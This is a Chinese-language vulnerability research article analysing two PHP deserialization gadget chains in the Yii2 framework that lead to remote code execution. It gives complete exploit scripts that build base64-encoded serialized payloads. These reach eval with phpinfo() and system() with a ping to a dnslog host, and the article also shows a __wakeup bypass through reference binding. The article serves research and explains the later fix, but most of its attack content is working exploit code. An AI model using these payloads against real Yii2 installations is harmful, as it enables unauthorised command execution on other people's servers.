# YII 2 反序列化挖掘与分析-先知社区

> **来源**: https://xz.aliyun.com/news/17437  
> **文章ID**: 17437

---

# YII 2 反序列化挖掘与分析

## 环境部署

选择 basic 包，



定位到 config/web.php 中将 `cookieValidationKey` 的值改为 `demo`，然后访问/web/index.php。

在文件 `controllers\SiteController.php` 中的 `actionIndex` 方法添加反序列化入口，



## 反序列化一、

版本限制：<=2.0.39

### 漏洞分析

反序列化起点在 `SebastianBergmann\RecursionContext\Context` 类的 `__destruct()` 方法，这里做了个循环的调用。属性 `arrays` 可控，如果给 `arrays` 赋值一个继承了 `IteratorAggregate` 类的类，在遍历该类时会调用该类的 `getIterator()` 方法获取迭代器，然后再遍历它。



简单找了一下，发现 `PHPUnit\Framework\TestSuite` 类中的 `getIterator()` 方法有点可疑，看到如果属性 `$iteratorFilter` 赋值为类可以调用任意类的 `__call()` 魔术方法，所愿发现 `$iteratorFilter` 确实是可控的，



至于 `__call()` 魔术方法就可以参考下以前的链子了，来到 `Faker\Generator` 类的 `__call()`，跟进 format()



看到这里存在回调， `$arguments` 没法控制，但是 `getFormatter()` 返回值可以控制，所以这里打算通过回调调用任意类方法，



这里有两个参数回调的方法无参有参都行，有很多可以选择，这里随便选一个。定位到 `PHPUnit\Framework\MockObject\MockClass#generate()` ，看到直接调用了 eval 方法，并且 `$classCode` 可控，到此链子就算是通了，



### exp 编写

```
<?php  
namespace PHPUnit\Framework\MockObject{  
    final class MockClass{  
        public $mockName;  
        public $classCode;  
        public function  __construct()  
        {  
            $this->mockName = "MockClass";  
            $this->classCode = "phpinfo();";  
        }  
    }  
  
}  
namespace PHPUnit\Framework {  
  
    class TestSuite  
    {  
        public $iteratorFilter;  
    }  
}  
namespace Faker{  
use PHPUnit\Framework\MockObject\MockClass;  
    class Generator{  
        public $formatters;  
        public $aaa;  
        public function __construct() {  
            $this->formatters['factory'] = [new MockClass(), 'generate'];  
        }  
    }  
  
}  
namespace SebastianBergmann\RecursionContext{  
    final class Context  
    {  
        public $arrays;  
    }  
  
    $a = new Context();  
    $a->arrays = new \PHPUnit\Framework\TestSuite();  
    $a->arrays->iteratorFilter = new \Faker\Generator();  
    echo base64_encode(serialize($a));  
}
```

exp 验证



### 漏洞修复

2.0.39 后的版本中在 `Faker\Generator()` 中添加了 `__wakeup()` 方法把 `$formatters` 属性进行了置空，



这样 `getFormatter()` 返回值就变得不可控了，



其实这里的 wakeup()可以通过引用来进行绕过，也就是把 `$formatters` 和另一个类的属性进行绑定，然后后续操作这个类的属性赋值也就会给 `$formatters` 赋上值，不过需要在 `Generator()::__wakeup()` 后进行赋值，而反序列化时是先从属性进行反序列化。

给个简单的例子：

```
<?php
class KeyPort{
    public $key;

    public function __destruct()
    {
        $this->key=False;
        if(){
            echo "You get it!";
        }
    }

    public function __wakeup(){
        $this->wakeup=True;
    }

}

if(isset($_POST['pop'])){
    unserialize($_POST['pop']);
}
```

poc，最后得到的 `$wakeup` 就是 false，

```
$a=new KeyPort();
$a->wakeup=&$a->key;
echo serialize($a);
```

然后我又找了一下一些存在赋值的操作的 `__wakeup` 和 `__destruct`，其中发现一个，对 `$safeMap` 属性进行了赋值，



但是这里 `$safeMapShare` 是静态属性，不能被序列化和反序列化自然也就没法赋值了，不过还是想验证一下上面的操作是否可以绕过 wakeup 的置空，把静态属性改为正常属性试试



exp

```
<?php  
namespace PHPUnit\Framework\MockObject{  
    final class MockClass{  
        public $mockName;  
        public $classCode;  
        public function  __construct()  
        {  
            $this->mockName = "MockClass";  
            $this->classCode = "phpinfo();";  
        }  
    }  
  
}  
namespace PHPUnit\Framework {  
  
    class TestSuite  
    {  
        public $iteratorFilter;  
    }  
}  
namespace Faker{  
    use yii\rest\CreateAction;  
    class Generator{  
        public $formatters;  
        public $a;  
        public function __construct($obj) {  
            $this->formatters= &$obj->safeMap;  
        }  
    }  
  
}  
namespace {  
    use PHPUnit\Framework\MockObject\MockClass;  
    class Swift_Encoder_QpEncoder{  
        public $safeMapShare;  
        public $safeMap;  
        public function __construct() {  
            $this->safeMapShare['Swift_Encoder_QpEncoder']=['factory'=>[new MockClass(), 'generate']];  
        }  
    }  
}  
namespace SebastianBergmann\RecursionContext{  
    final class Context  
    {  
        public $arrays;  
        public $a;  
    }  
  
    $a = new Context();  
    $a->arrays = new \PHPUnit\Framework\TestSuite();  
    $c=new \Swift_Encoder_QpEncoder();  
    $a->a =$c;  
    $a->arrays->iteratorFilter = new \Faker\Generator($c);  
    echo base64_encode(serialize($a));  
}
```

传入 poc，会先调用到 Generator 的 wakeup 魔术方法进行属性置空，



接着来到 Swift\_Encoder\_QpEncoder 类的 wakeup 魔术方法对 `$safeMap` 赋值，



由于绑定了 `$safeMap` 和 `$formatters`，赋值后 `$formatters` 也有值了，



最后也能成功命令执行，



当然实际上我还并没有找到直接可以赋值的 `__wakeup` 或者 `__destruct` 方法，再或者在 `Generator#__wakeup()` 进行的类属性赋值操作。

## 分序列化二、

版本限制：<=2.0.45

### 漏洞分析

就是换了个 `__call` 方法，来到 `vendor/fakerphp/faker/src/Faker/ValidGenerator.php` 的 `__call()` 方法，



两个回调函数，最终利用点在第二个，`$this->validator` 可控，需要控制 `$res`，

```
call_user_func($this->validator, $res)
```

可以利用`vendor/fakerphp/faker/src/Faker/DefaultGenerator.php`中的`__call()`方法返回自定义值



参考：<https://xz.aliyun.com/news/8919>

### exp 编写

```
<?php  
namespace Faker{  
  
    class DefaultGenerator{  
        protected $default ;  
        function __construct($argv)  
        {  
            $this->default = $argv;  
        }  
    }  
  
    class ValidGenerator{  
        protected $generator;  
        protected $validator;  
        protected $maxRetries;  
        function __construct($command,$argv)  
        {  
            $this->generator = new DefaultGenerator($argv);  
            $this->validator = $command;  
            $this->maxRetries = 99999999;  
        }  
    }  
}  
  
namespace PHPUnit\Framework {  
  
    class TestSuite  
    {  
        public $iteratorFilter;  
    }  
}  
  
namespace SebastianBergmann\RecursionContext{  
    final class Context  
    {  
        public $arrays;  
    }  
  
    $a = new Context();  
    $a->arrays = new \PHPUnit\Framework\TestSuite();  
    $a->arrays->iteratorFilter = new \Faker\ValidGenerator("system","ping 3c9df2b0.log.dnslog.sbs.");  
    echo base64_encode(serialize($a));  
}
```

exp 验证，


